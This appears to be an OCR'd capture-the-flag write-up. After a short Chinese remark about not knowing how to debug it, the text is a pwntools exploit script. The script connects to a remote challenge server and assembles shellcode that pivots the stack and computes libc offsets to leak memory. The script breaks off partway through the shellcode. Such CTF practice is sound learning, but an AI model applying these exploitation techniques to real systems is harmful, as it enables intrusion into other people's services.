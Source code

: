 思路都能整的明白，就是不知道咋调的:>

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

# remote_service = ""
# remote_service = remote_service.strip().split(":")
# p = remote(remote_service[0], int(remote_service[1]))
p = remote('39.106.156.74', 15163) 
filename = "./pwn"
# p = process(filename) 
e = ELF(filename, checksec=False)
l = ELF(e.libc.path, checksec=False)

rl = lambda a=False : p.recvline(a)
ru = lambda a,b=True : p.recvuntil(a,b)
rn = lambda x : p.recvn(x)
sn = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
irt = lambda : p.interactive()
dbg = lambda text=None : gdb.attach(p, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
i2b = lambda c : str(c).encode()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
 # lg("p.pid")
 # input()
 pass

# environ = 0x3ee098
# prctl = 0x122210
def send_code():
 code = asm(
  f"""
  lea rsi, byte ptr [rip - 0x2ba]
  add rsi, 0xf69
  mov rsp, rsi
  lea rdx, byte ptr [rip + 0xfb5 - 7]
  mov r8, [rdx]
  add r8, 0x3e8
  mov r9, [r8]
  sub r9, 0x122210

  mov r8, r9
  add r8, 0x3ee098

  mov r9, [r8]
  sub r9, 0x40

  mov r8, [r9]
  sub r8, 0x11a0
  add r8, 0x4120

  mov rdi, 1
  mov rax, 1
```